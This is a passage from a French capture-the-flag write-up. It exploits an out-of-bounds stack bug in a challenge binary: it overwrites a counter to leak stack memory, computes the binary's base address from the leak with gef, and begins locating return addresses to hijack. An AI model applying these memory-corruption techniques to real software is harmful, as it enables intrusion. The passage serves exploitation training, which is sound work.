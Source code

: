 ```py
```
Il faut faire attention à ne pas écraser `nombre_plaintes` avec un nombre trop grand, sinon `afficher_toutes_les_plaintes` essayera d'afficher des plaintes au de la stack et le programme crashera, 32 est largement suffisant.
On obtient:
```py
0x00 0x0000000000000061
0x01 0x0000000000000061
0x02 0x0000000000000061
0x03 0x0000000000000061
0x04 0x4141414141414141
0x05 0x0000000000000020
0x06 0x00007fffffffe390
0x07 0x0000000000000001
0x08 0x00007fffffffe490
0x09 0x0000000155554040
0x0a 0x00007fffffffe4a8
0x0b 0x0000000000000000
0x0c 0x0000555555557d88
0x0d 0x095f9248c33eb2b6
0x0e 0x0000000000000000
0x0f 0x0000000000000000
0x10 0x00007fffffffe4a8
...
```
On peut reconnaitre plusieurs valeurs dans ce leak:
- nos 5 plaintes, de 0x00 à 0x5
- `nombre_plaintes` à l'index 0x5
- `0x0000555555557d88` à l'index 0xc, cette adresse ressemble à une adresse du binaire.

On peut aller voir dans *gef* pour confirmer, avec la commande `vmmap` qui nous affiche les adresses et à quoi elle font référence,
ici, `vmmap 0x0000555555557d88` nous montre que cette adresse apparient bel et bien au binaire:
```
Start              End                Size               Offset             Perm Path
0x0000555555557000 0x0000555555558000 0x0000000000001000 0x0000000000002000 r-- /home/meisr/.../liberte_v2
```
On peut soustraire un certain offset au leak obtenu pour avoir l'adresse base du binaire (`dist 0x0000555555557d88` dans *gef* pour obtenir cette offset rapidement).
Il nous reste plus qu'a trouver un moyen d'executer win.

#### Execution de code

Notre bug `"Out of bound"` se situe sur la stack donc là où sont stockées les adresses de retour des fonctions, si on regarde la stack sur *gef* avec la commande `telescope`, on peut trouver des adresses de retour qu'on pourrait réécrire avec notre bug:
```
+0x00 0x00007ffff7000061 'a' <- plainte 0
+0x00 0x00007ffff7e3c3e3
+0x01 0x0000000000000061 'a' <- plainte 1
+0x01 0x00007ffff7f8d760
+0x02 0x0000555555000061 'a' <- plainte 2
+0x02 0x00007ffff7e31ada
+0x03 0x00007fffff000061 'a' <- plainte 3
+0x03 0x00007fffffffe380
+0x04 0x4141414141414141 'AAAAAAAAAAAAAAAA ' <- plainte 4
+0x04 0x4141414141414141 'AAAAAAAA '
+0x05 0x0000000000000020 <- nombre_plaintes
+0x05 0x00007fffffffe4b8
+0x06 0x00007fffffffe390
+0x06 0x0000555555555721 <main+0x3a> <- retaddr
```
*gef* est sympa, il nous indique les adresses de retour avec *retaddr*. Si on regarde le code de `main` avec `disas main` dans *gef*,